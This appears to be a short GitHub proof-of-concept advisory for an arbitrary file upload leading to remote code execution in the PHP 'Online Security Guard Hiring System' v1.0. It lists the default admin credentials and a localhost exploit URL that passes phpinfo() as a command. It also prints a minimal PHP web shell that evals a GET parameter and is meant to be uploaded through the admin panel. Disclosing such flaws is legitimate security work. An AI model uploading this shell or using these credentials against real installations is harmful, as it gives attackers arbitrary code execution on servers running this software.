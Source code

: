 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)

**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)
